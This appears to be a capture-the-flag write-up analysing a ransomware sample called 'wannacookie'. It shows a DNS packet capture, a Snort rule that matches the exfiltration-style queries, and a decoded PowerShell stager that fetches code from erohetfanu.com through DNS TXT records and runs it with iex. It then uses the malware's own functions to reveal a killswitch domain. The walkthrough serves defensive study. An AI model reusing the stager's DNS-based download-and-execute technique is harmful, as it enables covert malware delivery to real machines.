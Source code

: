 ```
309   3.138054 10.126.0.133 ? 90.215.148.126 DNS 102 Standard query 0xbe44 TXT 50.77616E6E61636F6F6B69652E6D696E2E707331.grurnshabe.com
```

Looking at a few more examples, we see that the query is always 56 characters long with first 1-3 digits followed by a separator and about 40 hex characters.
We can then write the following Snort rule to match these queries

{% highlight shell %}
$ cat /etc/snort/rules/local.rules 
alert udp any any <> any 53 (msg:"DNS Malware"; sid:1000001; pcre:"/.*[0-9A-F]{1,4}.[A-F0-9]{35,42}/"; rev:2;) 
{% endhighlight %}

### Part 2 - Identify the Domain

In the "docm" file we can extract the embedded VBA code which contains a compressed and base 64 converted snippet of code.
Decoding it gives the inner payload.

{% highlight shell %}
$ echo "lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG" | base64 -d > vba_payload.dat
$ printf "\x1f\x8b\x08\x00\x00\x00\x00\x00\x00\x00" |cat - vba_payload.dat|gunzip --
function H2A($a) {$o; $a -split '(..)' | ? { $_ }  | forEach {[char]([convert]::toint16($_,16))} | forEach {$o = $o + $_}; return $o}; $f = "77616E6E61636F6F6B69652E6D696E2E707331"; $h = ""; foreach ($i in 0..([convert]::ToInt32((Resolve-DnsName -Server erohetfanu.com -Name "$f.erohetfanu.com" -Type TXT).strings, 10)-1)) {$h += (Resolve-DnsName -Server erohetfanu.com -Name "$i.$f.erohetfanu.com" -Type TXT).strings}; iex($(H2A $h | Out-string))
{% endhighlight %}

Which gives us the domain the malware is communicating with: "erohetfanu.com".

### Part 3 - Stop the Malware

The inner payload is a stager which uses the remote domain for downloading another file "wannacookie.min.ps1" and running it.
Using the same Powershell code we can download the uncompressed "wannacookie.ps1" file and read the source code.
There is a suspicious string in the code and again by using the powershell code we can decode it.

{% highlight powershell %}
$ echo $(H2A $(B2H $(ti_rox $(B2H $(G2B $(H2B $S1))) $(Resolve-DnsName -Server erohetfanu.com -Name 6B696C6C737769746368.erohetfanu.com -Type TXT).Strings)))
yippeekiyaa.aaay
{% endhighlight %}

This gives us the killswitch domain that we can register (Support Marcus Hutchins): yippeekiyaa.aaay

### Part 4 - Recover Alabaster's Password
